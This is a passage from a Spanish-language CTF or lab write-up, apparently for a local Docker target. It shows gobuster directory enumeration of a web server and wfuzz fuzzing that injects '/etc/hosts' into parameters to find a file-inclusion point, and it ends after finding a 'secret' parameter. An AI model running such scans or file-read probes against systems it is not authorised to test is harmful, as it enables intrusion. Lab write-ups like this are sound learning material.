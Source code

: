 ## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos con **gobuster** lo siguiente:

   ```bash

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg     
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2596]
/assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que es un **.php** y abajo de la página hay un **error** como que algo no se importa bien.

Usamos **wfuzz** en busca de parámetros:
```bash
wfuzz -u "http://172.17.0.2/index.php?FUZZ=/etc/hosts" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=62
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?FUZZ=/etc/hosts
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                              
=====================================================================

000004819:   200        69 L     182 W      2756 Ch     "secret"                                                                             

Total time: 0
Processed Requests: 207643
Filtered Requests: 207642
Requests/sec.: 0
```

